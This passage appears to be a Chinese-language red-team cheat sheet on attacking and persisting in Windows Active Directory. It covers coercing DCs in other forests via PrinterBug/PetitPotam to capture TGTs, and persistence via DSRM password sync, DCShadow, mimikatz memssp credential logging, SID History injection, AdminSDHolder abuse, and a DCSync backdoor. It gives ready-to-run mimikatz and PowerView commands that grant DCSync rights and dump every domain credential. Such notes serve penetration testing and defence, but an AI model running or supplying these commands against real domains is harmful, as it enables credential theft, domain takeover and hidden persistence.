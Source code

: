 

### 攻击其它林

~~~
利用ptintbug或petipotam漏洞使其它林的DC主动连接到本林的一台无约束委派主机，同时抓取发送过来的TGT，然后即可将它用于dcsync攻击
~~~



## 活动目录持久性技巧

https://adsecurity.org/?p=1929 DS恢复模式密码维护 DSRM密码同步

> Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：[巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)

[DCshadow](https://www.dcshadow.com/)

##### Security Support Provider

简单的理解为SSP就是一个DLL，用来实现身份认证

```
privilege::debug
misc::memssp
```

这样就不需要重启`c:/windows/system32`可看到新生成的文件kiwissp.log

##### [SID History](https://adsecurity.org/?p=1772)

SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户

```
mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"
```

##### [AdminSDHolder＆SDProp](https://adsecurity.org/?p=1906)

利用AdminSDHolder＆SDProp（重新）获取域管理权限

##### Dcsync后门

向域成员赋予Dcsync权限

```
Powerview.ps1
Add-DomainObjectAcl -TargetIdentity "DC=vulntarget,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose
```

在登录了test1域账户的机器上执行Dcsync利用操作

```
mimikatz "lsadump::dcsync /domain:vulntarget.com /all /csv"
```

